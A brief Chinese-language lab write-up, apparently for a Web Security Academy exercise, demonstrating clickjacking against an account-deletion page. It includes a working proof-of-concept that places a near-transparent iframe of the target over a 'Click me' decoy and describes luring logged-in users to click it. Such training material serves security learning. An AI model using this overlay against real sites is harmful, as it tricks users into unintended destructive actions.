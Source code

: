 该网页有一个删除账户操作，存在安全的csrf令牌

但是可以尝试点击劫持



poc:

```javascript
//设置div和ifame标签的样式
<style>
//嵌入受害网站
   iframe {
       //位置：相对
       position:relative;
       width:500px;
       height: 700px;
       //透明度
       opacity: 0.1;
       z-index: 2;
   }
   div {
       //位置：完全的
       position:absolute;
       top:380px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac6d1f2a1f15dcbf800204d2001f00b8.web-security-academy.net/account"></iframe>
```

将该脚本放置到恶意网站上，诱使用户再登陆受害网站时，访问该页面，用户只要点击了页面上的引诱性的小游戏，即可实现点击劫持。

![](images/7FE7B296A17B48D8B6286388EE1961A3clipboard.png)

